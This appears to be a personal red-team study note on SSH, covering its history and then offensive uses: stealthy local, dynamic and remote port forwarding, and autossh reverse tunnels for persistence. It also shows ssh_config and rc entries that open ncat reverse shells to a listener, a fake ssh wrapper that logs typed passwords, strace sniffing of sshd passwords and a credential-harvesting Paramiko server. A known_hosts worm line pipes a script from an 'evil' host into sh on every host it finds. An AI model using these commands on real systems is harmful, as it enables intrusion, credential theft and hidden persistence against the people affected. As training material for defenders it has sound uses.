



## Wrap arround

**SSH (Secure Shell)** is a `network protocol` and suite of tools that creates an **encrypted connection** between two computers over an unsecured network, enabling secure remote access, command execution, and file transfers. It works by establishing a `secure "tunnel"` where data is authenticated and encrypted to protect it from interception, and it uses either `password or public-key` authentication to grant access to remote servers, primarily for administration and management purposes.

Default port: 22

## History

### Version 1

In 1995, **SSH-1** was designed by **Tatu Ylönen** (prompted by a password-sniffing attack at his university network), with the goals is replace the earlier `rlogin`, `telnet`, `ftp` and `rsh protocol` (**not provide strong authentication nor guarantee confidentiality**). The reason for port number 22 is between telnet (port 23) and ftp (port 21).

### Version 2

In 2006, **SSH-2** was adopted as a standard (after being discussed in a working group named "secsh"). Although this offers improved security and new features, SSH-2 is not compatible with SSH-1. The specially I notice to is **"New features of SSH-2 include the ability to run any number of shell sessions over a single SSH connection."**

### Version 1.99

In January 2006, well after version 2.1 was established specified that an SSH server supporting 2.0 as well as prior versions should identify its protocol version as 1.99.

SSH version 1.99 is not a distinct SSH protocol version in itself, but rather an indicator **used by SSH servers**. When an SSH server advertises itself as version 1.99, it signifies that the server **supports both SSH version 1 (SSHv1) and SSH version 2 (SSHv2)**. This allows for backward compatibility, meaning the server can negotiate a connection using either the older SSHv1 protocol or the more secure and modern SSHv2 protocol, depending on the client's capabilities and configuration.

While SSHv1 offers backward compatibility, it is generally recommended to use SSHv2 due to known security vulnerabilities present 
in SSHv1. Many modern SSH clients and servers are configured to prioritize or exclusively use SSHv2 for enhanced security.

### OSSH and OpenSSH

“software is like sex : it's better when it's free..” - **Linus Torvalds**

In 1999, developers, desiring availability of a free software version, restarted software development from the 1.2.12 release of the original SSH program, which was the last released under an open source license.

- This served as a code base for Björn Grönvall's OSSH software.
- Shortly thereafter, OpenBSD developers forked Grönvall's code and created OpenSSH, which shipped with Release 2.6 of OpenBSD. From this version, a "portability" branch was formed to port OpenSSH to other operating systems.

As of 2005
-  OpenSSH was the single most popular SSH implementation, being the default version in a large number of operating system distributions. OSSH meanwhile has become obsolete.
- OpenSSH continues to be maintained and supports the SSH-2 protocol, having expunged SSH-1 support from the codebase in the OpenSSH 7.6 release.

### Future

In 2023, an alternative to traditional SSH was proposed under the name SSH3 by PhD student François Michel and Professor Olivier Bonaventure and its code has been made open source. This new version implements the original SSH Connection Protocol but operates on top of HTTP/3, which runs on QUIC.

However, the name SSH3 is under discussion, and the project aims to rename itself to a more suitable name. The discussion stems from the fact that this new implementation significantly revises the SSH protocol, suggesting it should not be called SSH3.

## Analyse

SSH is a network protocol that provides secure communication over unsafe environments. It ensures confidentiality and integrity, preventing attackers or unauthorized users from reading or tampering with your connection.

SSH allows you to connect from external environments to internal machines, as well as securely communicate between systems within the internal network.

If an attacker compromises one machine, they can leverage SSH to pivot into other systems that the victim connects to, and even set up tunnels for faster exploitation.

Because SSH traffic is encrypted, IPS, IDS, and AV solutions often trust it by default and cannot inspect the activity inside the tunnel. Attackers can abuse this to ‘live off the land’ or carry out sophisticated exploitation undetected.

## Red team case

### Note

#### Run Command
We can run command when connect to a remote system

`ssh victim@10.10.10.10`

or run a single command

`ssh victim@10.10.10.10 whoami`

This is very useful if the system is being actively defended, so blue team or someone is actually on the system watching for connections and seeing who's logged in this. They'd have to catch that and run that command while the `whoami` command is running or whatever command you want to run.

#### File transfer

SSH also makes file transfers convenient through tools like `scp` and `sftp`.

If you want, you can run command singularly so you don't even have an interactive session so it's a lot harder to find.


### Fowarding

#### Local fowarding

<p align="center">
    
</p>

`ssh -L 8080:192.168.1.10:80 victim@10.10.10.10 -N &`

I'll have port 8080 on my local system will jump through that 10.10.10 system and then point at one of the systems on the other side.

All of that will go over the SSH tunnel. So that traffic is encrypted from my laptop here to this system. And then it comes out of here and will wind up over on looking at this system. 

Listening on my host on port 8080 on my laptop. I want that traffic when I go to port 8080 to go out the other side to 192.168.1.10 on port 80. So say there's a web server on that system that I'm trying to get access to. And then I'm logging in as Bob to that that bounce node 10.10.10.10. `I should have done different IP addresses`. And then interestingly here, I'm going to give it `-N`. So that tells it `not to request a shell`. And then I'm going to background it. **I didn't request a shell on the remote system**. 

**So once again, if there's a defender watching that system trying to see like run a who, or see who's logged into it, all they'll actually see is that there's an SSHD process, it doesn't actually spawn a shell or anything. And then if they're really on the ball, they'll look at netstat and see the network connection. But most of the time, they just won't realize that there's somebody logged in. And then, like I said, that's backgrounded.**

#### Dynamic Port Fowarding

<p align="center">
    
</p>

But I don't want to do that one by one by one through all these systems on this network. Thankfully, SSH was nice enough to think of the this the kind developers of open SSH. They implemented this thing called dynamic ports forwarding. So what this does is this lets me open up on my system, a port that will forward over that SSH channel, either SOX4 or SOX5 proxy. And then I'm essentially using that SSH server as a proxy server. And I can get to any of the systems behind that network as long as whatever I'm using speaks that SSH protocol. So if I point my, if I use this proxy port, then I can get proxy that through this system and just get to any of the systems that are behind here in the way this kind of basic network example is laid out. Can use browser or proxychains to configure dynamic port forwarding.s

#### Remote Port Fowarding
<p align="center">
    
</p>

I am sitting on my laptop and I would like a port on that SSH server to open up and forward that port back to my system. So I'll do this with SSH a lot to get from a system out to the network and then be able to do all of that same forwarding and tunneling and stuff just in the opposite way.and I would like a port on that SSH server to open up and forward that port back to my system. So I'll do this with SSH a lot to get from a system out to the network and then be able to do all of that same forwarding and tunneling and stuff just in the opposite way.

I'm actually on, I'd have to be, I have to be on both systems in this scenario. So I'm on my laptop and then I also have access to this system in the network and I'm trying to exfil some data or something. I can't get out because they're blocking the internet, but I have access to this. I have access to my laptop. So what I do is I SSH and I set up a remote forward from here that says, Hey, listen 2222 here and forward that back to me on port 22, which is SSH.

Then from this system, I can just use any of those SSH commands provided I have the SSH command line and I can do stuff like copy files to here, but it's really forwarding to here. So anyone looking at the network traffic, nothing's actually going out over the firewall or anything. It's just traffic going to here. And then there's a secure connection to here from, from the bounce host to my laptop. 

#### Proxy Command

<p align="center">
    
</p>

`-o ProxyCommand="ssh -W %h:%p <user>@<IP>"`

I have a tunnel and I want to log into that. I want to log in through my, my jump box or my bounce node. I want to land over here. So I would have to SSH to here, do a port forward to tell it to go over here and then SSH that port forward and go over here.

SSH has this cool option called a proxy command. The proxy command is the old way to do this. And they've actually since implemented a new version, but proxy command is still super useful and we'll see another use of this in just a second.

`local:~$ ssh -o ProxyCommand ="ssh -W %h:%p bob@10.10.10.10" bob@remote`

Instead of connecting directly, run this command to create the connection. This connect to `bob@10.10.10.10` (the jump host), and then forward stdin/stdout to the final target.

`local:~$ ssh -J bob@10.10.10.10 bob@remote`

It’s a shorthand for the `ProxyCommand` trick above.

Conclusion
- `ProxyCommand`: old-school, very flexible (you can use `nc`, `socat`, or custom commands, not just `SSH`).

- `J` **(JumpHost)**: simpler, cleaner syntax, but less flexible.

&rarr; `Local (your PC) → Jump Host (10.10.10.10) → Remote Server (remote)`

```config
# Define the jump host
Host jump
    HostName 10.10.10.10
    User bob

# Define the remote, going through jump
Host remote
    HostName remote        # could also be an IP like 192.168.1.100
    User bob
    ProxyJump jump
```

**Another exampler**:

`ssh -o ProxyCommand="ncat --proxy proxyhost 1080 %h %p" bob@remote`

&rarr; `local ssh → ncat → proxyhost:1080 (SOCKS proxy) → remote:22`

```config
Host remote
    HostName remote
    User bob
    ProxyCommand ncat --proxy proxyhost:1080 %h %p
```

#### Auto SSH

<p align="center">
    
</p>

Another thing that is very useful here is so now I have all of these tunnels and this forwarding and all of this cool stuff that I want to set up. But SSH is a TCP protocol. So if anything happens in this connection, any of the routers or something, timeout, something weird happens, that connection will die. Maybe I want this tunnel to be set up really long lived.

And how I accomplish this is with a command called auto SSH. And what I like to do with this is I will set up auto SSH to log into my laptop and forward port 2222 on my laptop back to the host. It would actually forward from 2222 back to my host on 22 and tunnel that traffic. So I connect here and it goes out here. So there's an auto SSH connection out. It sets up that remote port forward to come back.


```
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" \
-R 127.0.0.1:2222:127.0.0.1:22 hackbox
```

I'm giving it some options here, the server alive interval, server alive max count. So it'll wait 30 seconds and it'll max try three times. And then I'm telling it to remote forward on 2222 to port 22 on my local host. And then I log into my laptop, aka hack box. And then on hack box, I can SSH -P to 2222 and tell it Bob because that's the user that I have at local host. And that's actually going to go through that tunnel back in through the network. And then I'm just logged into that victim system.

**Once again, this is super cool because like all someone monitoring this network would see as someone logging into a system remotely. So say you're here, this boundary is monitored. All you see is an SSH out. You don't actually see me tunneling back in. So it looks like someone who already has logged into this just logged into something on the internet.**

```
ssh -p 2222 bob@localhost
```

**Graph**

```
Victim (behind NAT) --[Reverse SSH]--> Hackbox (public server)
                                   (opens port 2222 mapped to Victim:22)
```

Now, on Hackbox:
```
ssh -p 2222 bob@localhost
        ↓
Tunnel sends it back to Victim:22
        ↓
You get shell on Victim
```

So a bunch of fun stuff you can do with port forwarding super useful for kind of crossing those security boundaries and getting into networks that you're not necessarily supposed to have access to with auto SSH, you can maintain that access. And if you get creative with it, you can jump around and get to a bunch of different network segments and really make it confusing. With all the port forwarding, you can make it look like someone's connecting from a different system as long as you have access to connect all through. So someone that's trying to trace that back through network logs or system logs is going to have a rough time because you're essentially using a proxy to get through a bunch of stuff. And you can proxy proxy proxy and jump around and good clean fun to be had by all.

### Configs

#### SSH config

<p align="center">
    
</p>

SSH config is get it to do stuff that people are not intending. So let's say in this scenario, I know that Bob is SSHing from the server that he's on, 10.10.10.10 to that system that he has internally. Every time he does that, I would like to get a shell back to me on 4141 from his system. With SSH config, I can do that. So here I configure it, say I'm on his server for some reason. I have access to his SSH config. I'm going to go ahead and I like to set this up for all hosts. By default, you're not permitted to run a local command, but luckily in the configs file, you can just tell it to let you do that. And what I'm going to do here is tell it the local command is to netcat me a bin bash shell to my IP address on my listener and background, and then do whatever else Bob was trying to do. So every time Bob logs into a host, it will spin a shell back to me and I'll get access to his system. So say my shells keep dying or I just want to kind of maintain access in a super easy, lightweight way. Another config file that is super awesome is this run commands file or RC file.

- **Global:** `/etc/ssh/ssh_config`
- **User:** `~/.ssh/config`

Let SSH know what to do
- Avoid some typing 
- Interesting things


```config
Hostname *
    PermitLocalCommand True
    LocalCommand ncat -e /bin/bash <LISTENER IP> 4141 &
```

#### RC file

<p align="center">
    
</p>

- **Global:** `/etc/ssh/sshrc`
- **User:** `~/.ssh/rc`
- Run command on login

```config
ncat -e /bin/bash <LISTENER IP> 4141 &
```

### Stealing Credentialss

#### SSH Client (CONT)

`/usr/local/bin/ssh`
```
#!/bin/bash
read -esp "${1}'s password: " password
echo "$1 - $password" >> /tmp/.cred
echo
/usr/bin/ssh $@
```
#### SSHD Server 

```
# find the sshd process
root@remote:~$ ps --ppid 1 | grep sshd
  641 ?      00:00:00 sshd

# strace sshd process and look for password
root@remote:~$ strace -f -p 641 -e read |& grep -F "\f\0\0\0"
...
[pid  2235] read(6, "\f\0\0\0\10sup3s3cr3t", 16) = 16
```

#### Paramiko Server

```python
import socket
import paramiko

class Server(paramiko.ServerInterface):
    def check_auth_password(self, username, password):
        print(f"[+] username: {username} password: {password}")
        return paramiko.AUTH_FAILED


# Create raw socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(("", 22))          # Listen on port 22 (SSH)
sock.listen(1)

client, addr = sock.accept()
print(f"[+] Got a connection! {addr}")

# Start Paramiko transport on the socket
t = paramiko.Transport(client)
t.add_server_key(paramiko.RSAKey(filename="test_rsa.key"))

server = Server()
t.start_server(server=server)

chan = t.accept()
```

#### Known Hosts

```script
if [ -f ~.ssh//known_hosts ] && [ -f ~/.ssh/id_rsa.pub ]; then
          for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" ~/.ssh/known_hosts); 
do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h 'hxxp://evil[.]co/evilScript | sh' & done
fi
```

### Tunneling

<p align="center">
    
</p>

[Bypassing Network Restrictions Through RDP Tunneling](https://cloud.google.com/blog/topics/threat-intelligence/bypassing-network-restrictions-through-rdp-tunneling/)

Attackers often abuse tunneling techniques to bypass network restrictions and monitoring controls.  

SSH can also be weaponized as a stealthy tunneling tool —  allowing adversaries to evade firewalls, hide malicious traffic, and move laterally across systems under the cover of encrypted sessions.

## References

[Secure Shell](https://en.wikipedia.org/wiki/Secure_Shell#Historical_development)

[SSH: Dynamic Port Forwarding](https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding#ssh-dynamic-port-forwarding)

[Grey Hat SSH SShenanigans](https://www.youtube.com/watch?v=XTaKWdIdg8g)

[Lateral Movement with Secure Shell (SSH)](https://redcanary.com/blog/threat-detection/lateral-movement-with-secure-shell/)

[Bypassing Network Restrictions Through RDP Tunneling](https://cloud.google.com/blog/topics/threat-intelligence/bypassing-network-restrictions-through-rdp-tunneling/)